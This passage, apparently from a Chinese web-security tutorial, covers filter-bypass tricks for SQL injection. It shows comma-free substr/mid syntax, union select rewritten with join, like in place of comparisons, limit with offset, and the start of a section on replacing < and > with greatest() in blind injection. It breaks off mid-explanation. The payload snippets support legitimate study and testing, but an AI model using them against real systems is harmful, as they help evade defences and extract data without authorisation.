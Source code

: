 ### 4. 逗号绕过（使用 from 或者 offset）

在使用盲注的时候，需要使用到 substr(),mid(),limit。这些子句方法都需要使用到逗号。对于 substr() 和 mid() 这两个方法可以使用 from to 的方式来解决：

```
select substr(database() from 1 for 1);
select mid(database() from 1 for 1);


```

使用 join：

```
union select 1,2     #等价于
union select * from (select 1)a join (select 2)b


```

使用 like：

```
select ascii(mid(user(),1,1))=80   #等价于
select user() like 'r%'


```

对于 limit 可以使用 offset 来绕过：

```
select * from news limit 0,1


```

# 等价于下面这条 SQL 语句

```
select * from news limit 1 offset 0


```

### 5. 比较符号（<>）绕过（过滤了 <>：sqlmap 盲注经常使用 <>，使用 between 的脚本）

使用 greatest()、least（）：（前者返回最大值，后者返回最小值） 同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到 greatest 来进行绕过了。最常见的一个盲注的 sql 语句：

```
select * from users where id=1 and ascii(substr(database(),0,1))>64


```

此时如果比较操作符被过滤，上面的盲注语句则无法使用, 那么就可以使用 greatest 来代替比较操作符了。greatest(n1,n2,n3,...)函数返回输入参数 (n1,n2,n3,...) 的最大值。那么上面的这条 sql 语句可以使用 greatest 变为如下的子句:
